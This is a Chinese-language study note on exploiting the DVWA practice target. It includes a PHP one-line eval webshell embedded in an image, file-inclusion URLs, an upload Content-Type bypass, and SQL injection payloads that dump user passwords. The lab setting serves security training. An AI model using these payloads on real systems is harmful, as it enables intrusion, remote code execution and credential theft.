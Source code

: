 # Web Security

## dvwa靶机

### 上传漏洞

####低安全等级

因为服务器没有什么过滤条件直接上传一句话，菜刀链接就可以了。

#### 中安全等级

服务器对**媒体类型**进行了过滤，我们将`Content-Type: application/octet-stream`类型改为`image/jpeg`就可以绕过了。

#### 高安全等级

TODO

### 文件包含漏洞

#### 低安全等级

远程文件包含：

①制作图片马：

使用二进制的打开工具打开图片，比如说`010Editor`,在图片最末尾添加

`<?php fputs(fopen("shell.php","w"),'<?php @eval($_POST["pass"]);?>')?>`

意思是将一句话木马写到`shell.php`中。

![1544668415414](./images/web security/1544668415414.png)

②在含有包含漏洞的地方，将图片包含进来`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=自己的远程服务器/uploads/cc.jpg`

这一步就执行了一句话木马，在`vulnerabilities/fi/`目录下生成了`shell.php`

③最后菜刀链接。

#### 中安全等级

这个等级把`http://`和`http:s//`替换成了空字符串。

**第一种方法：**

我们可以构造类似这种请求进行远程文件包含。

`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=http:http:////www.baidu.com`

**第二种方法：**

本地文件包含：

和远程文件包含相比，本地文件包含需要先上传文件到目标机器上。

①制作图片马：同上

②在含有包含漏洞的地方，将图片包含进来`http://192.168.42.128/dvwa/vulnerabilities/fi/?page=../../uploads/cc.jpg`

需要知道上传文件的路径，一般是相对路径。

#### 高安全等级

### SQL注入

####普通注入

首先输入单引号，发现语句执行了，说明存在sql注入。

`1' union select 1，2` 测试，发现有两列

然后进行注入。

```sql
# 查所有表名
1' union select table_name,table_schema from information_schema.tables #
 
# 查某个表的所有列名
1' union select column_name,2 from information_schema.columns where table_name ='users' #

# 查询表中的数据
1'  union select user,password from users #

# 多列都显示
1'  union select password,concat(user," ", first_name," ",last_name) from users #
```

#### 盲注

`1' and sleep(3)  #`

如果发现网页在发请求（在转），那么此处就有漏洞。

然后就和普通注入一样了。